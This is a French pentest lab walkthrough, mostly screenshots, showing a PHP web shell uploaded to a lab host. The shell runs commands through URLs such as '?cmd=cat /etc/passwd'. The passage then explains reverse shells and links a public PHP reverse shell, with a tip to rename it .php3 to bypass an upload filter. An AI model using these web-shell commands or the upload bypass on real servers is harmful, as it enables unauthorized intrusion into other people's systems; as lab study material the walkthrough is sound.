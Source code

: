 ![](https://lh5.googleusercontent.com/zIgUlwS4UjqVbWLiE2MSxk22Sif80IJ6res4rLxuOafrW6lEAPsie0yLdFnJAwhlPUQFMcuFUBBIW7pzvzQhnc9jhXCf7j7KXsH_zuF6b1Wn4bRkQiqDJdNvHsYOC6h0bY6ekwP3)

![](https://lh6.googleusercontent.com/Biz1nU852Rdfw5OwB4YxzmlAl9-lncqaytFJu3sSjx7AWYwD3w5SzPxSPburaItJW8YUTwIuKeDEHIX9lrNDrF2Z4a-TJeiRc05HveXdtRrFD90pd0fUFxr0BatPyKnI4OrkhYud)

![](https://lh3.googleusercontent.com/S8mi83S4QgPCocfjdIA3Srl8dYR99-rTkJj3ghJTK4SNVr7ij5k3NrKU2R_joKNdvXis0fU4vv7BN8mr-r2P5adaED1V5jy6YZ-qLRyi5RPo9gyReK412_Q-Fy8E-ku519qTbsnL)

{% embed url="http://192.168.200.128/admin/uploads/myshell.PHP" %}

![](https://lh3.googleusercontent.com/LfGQytEAlBk25ObT-OjAYwJ9h-QKghm_x5hLCRkPj1mpi8XO2EE4uEX2WxabruBGJYsz62iiDGPHSDybTr7wRmfgfUA5CeoODv8Q41RIM-lKc0aEKbKy--85Og7JXTz-1mWiFkAj)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls
](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=ls

)

![](https://lh5.googleusercontent.com/Q6zAe_Z3bGPJfRu4i5gj5ifycZAXWMzyBd_ezdxuA8wJLhsALAgPj_e7V9tOnBT3L7q6Te6ejMD_gY738JJ-kFQHngsqDeBm9ubqQKm94W_ba5ovlA0_4eb0gUe-C9CqwvcvsazQ)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname -a](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=uname)

![](https://lh6.googleusercontent.com/fARo-VBvpcWJM13zkE7e22Zd7XNqaWNNZRthg9Q7EhAi3HWNJItCXMBGNvX66HsnMS-RMOdydjzE0XTd6a-C_eL8ekHrzO1kiLjne1-S4Ls3YvgOJn1vWShuyJ46zcjTW2JQekX1)

[http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat /etc/passwd](http://192.168.200.128/admin/uploads/myshell.PHP?cmd=cat)

![](https://lh6.googleusercontent.com/Owl-mHISJHWmBglIg_Gi68UhiVEVxuOY1jr8FuB9vLoDgZs4dRMNBFZ5YfjThjX8PoYWwIzAgy5TDSzsNr18heahSqiATo-7QuLU1lpUxHPXnsqWfbQSGcXNX-G6tjxMMH8USJAE)

### **Reverse-shell**

Il convient de clarifier dans un premier temps l’intérêt d’utiliser un reverse-shell et ce que c’est. Un « reverse-shell » n’est autre qu’un shell \(terminal/console\) contrôlé à distance par un utilisateur. Un shell simple se traduit par une attente de connexion sur un port précis par la machine à contrôler. L’utilisateur va se connecter sur ce port et récupérer le terminal interactif. Le « reverse-shell » est l’inverse : c’est l’utilisateur qui place un processus en écoute sur un port précis, et c’est la machine à contrôler qui établit la connexion vers la machine de l’utilisateur pour lui transmettre le contrôle de son terminal.

L’intérêt du « reverse-shell »? Plus besoin de se soucier des IPs des machines distantes à contrôler puisque ce sont elles qui se connectent à l’utilisateur. De plus, comme la connexion est sortante à partir de la machine à contrôler, les pare-feux/routeurs bloquent rarement ce type de flux.

{% embed url="https://github.com/pentestmonkey/php-reverse-shell/archive/master.zip" %}

Renommez le fichier php-reverse-shell.php en fichier php-reverse-shell.php3 pour contourner la protection interdisant le téléchargement des fichier PHP sur le serveur.

![](https://lh4.googleusercontent.com/Mec_lu-uhwQRZiSlQsIJrB38SL7DaKxxxp_75CEkMHNEChlnY79e7l3eaDXNqyIVV2nI-3b2n8MOliQbizs4O9OR6I4P5FCM31RpQcBMgyC5mZf8c03UcTckV3dy5SIIokiyHaBr)

Modifier le fichier **php-reverse-shell** en indiquant l'adresse IP du client cible et du port

![](https://lh4.googleusercontent.com/KIcQ6UwZiyY5yCI3ZtjSr1MWQw2f1TmvPv7hTHk0tUqiTWZQf3ma034kNZw2_obp7kDoVcNolOOr3cj8G2OiSmTMjK4eJC_YVN5KblP7Oz2HGhKaDwU453Zd0kY3g2x4BhnAl57A)

![](https://lh6.googleusercontent.com/-Dh9r_UdrKJUehcm1hIu-nmZMfNaOwC8McMgaGuA3TshxSKr2PlnJrk2t3AmFb_VuiIKoxK8ZKmfvGeOQcs5ep810z6GLFa2QmECOvHerJQko_eGFO9mH7_LHvgePN97E6wuEaYM)

